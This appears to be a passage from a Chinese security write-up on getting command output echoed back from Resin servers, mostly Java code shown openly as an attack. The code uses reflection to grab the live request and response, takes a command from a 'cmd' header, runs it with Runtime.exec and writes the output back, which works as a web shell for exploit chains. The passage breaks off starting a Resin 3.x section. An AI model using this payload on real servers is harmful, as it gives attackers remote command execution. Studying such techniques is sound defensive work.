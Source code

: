 

回显思路

- 反射调用ServletInvocation.getContextRequest()获取HttpServletRequestImpl对象
- 反射获取_response字段得到response对象
- 反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入需回显内容



代码实现

```java
// 反射调用ServletInvocation.getContextRequest()获取HttpServletRequestImpl对象
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
// 反射获取_response字段（response对象）
Field _responseF = currentRequest.getClass().getDeclaredField("_response");
_responseF.setAccessible(true);
Object response = _responseF.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```

#### Resin 3.x

​	在resin 3.X中跟一下如何获取response对象

- com.caucho.server.http.HttpRequest#handleRequest

  ![image-20220105161112694](resinEcho.assets/image-20220105161112694.png)
